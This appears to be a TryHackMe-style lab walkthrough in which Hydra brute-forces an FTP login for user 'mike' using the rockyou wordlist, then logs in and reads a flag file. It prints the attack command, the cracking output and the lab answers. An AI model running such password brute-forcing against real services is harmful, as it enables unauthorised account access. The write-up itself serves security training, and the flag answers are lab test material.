 Let's crack some passwords!

```
hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt -vV 10.10.175.222 ftp
```

```
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-08-19 13:16:59
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ftp://10.10.175.222:21/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 10.10.175.222 - login "mike" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.175.222 - login "mike" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.175.222 - login "mike" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.175.222 - login "mike" - pass "password" - 4 of 14344399 [child 3] (0/0)
[21][ftp] host: 10.10.175.222   login: mike   password: password
[STATUS] attack finished for 10.10.175.222 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-08-19 13:17:15

```
What is the password for the user "mike"? *password*

Bingo! Now, let's connect to the FTP server as this user using "ftp [IP]" and entering the credentials when prompted  *No answer needed*

```
┌──(kali㉿kali)-[~/Downloads/tcp_learning]
└─$ ftp 10.10.175.222
Connected to 10.10.175.222.
220 Welcome to the administrator FTP service.
Name (10.10.175.222:kali): mike
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||21705|)
150 Here comes the directory listing.
drwxrwxrwx    2 0        0            4096 Apr 24  2020 ftp
-rwxrwxrwx    1 0        0              26 Apr 24  2020 ftp.txt
226 Directory send OK.
ftp> more ftp.txt
THM{y0u_g0t_th3_ftp_fl4g}
```
What is ftp.txt? *THM{y0u_g0t_th3_ftp_fl4g}*
